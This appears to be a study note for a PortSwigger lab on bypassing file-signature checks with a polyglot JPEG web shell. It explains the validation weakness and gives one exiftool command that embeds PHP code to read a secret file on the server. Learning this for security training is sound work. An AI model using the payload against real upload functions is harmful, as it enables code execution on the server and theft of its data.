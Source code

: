 # Remote code execution via polyglot web shell upload

[Lab in PortSwigger](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

## Definition
Instead of implicitly trusting the Content-Type specified in a request, more secure servers try to verify that the contents of the file actually match what is expected.

In the case of an image upload function, the server might try to verify certain intrinsic properties of an image, such as its dimensions. If you try uploading a PHP script, for example, it won't have any dimensions at all. Therefore, the server can deduce that it can't possibly be an image, and reject the upload accordingly.

Similarly, certain file types may always contain a specific sequence of bytes in their header or footer. These can be used like a fingerprint or signature to determine whether the contents match the expected type. For example, JPEG files always begin with the bytes FF D8 FF.

This is a much more robust way of validating the file type, but even this isn't foolproof. Using special tools, such as ExifTool, it can be trivial to create a polyglot JPEG file containing malicious code within its metadata. 

## Notes
Use `exiftool` to craft the polyglot file as shown below:
```bash
exiftool -Comment="<?php echo ' START '.file_get_contents('/home/carlos/secret').' END '; ?>" avatar.jpg -o avatar.php
```

## Key Words
> exiftool, file upload, web shell, rce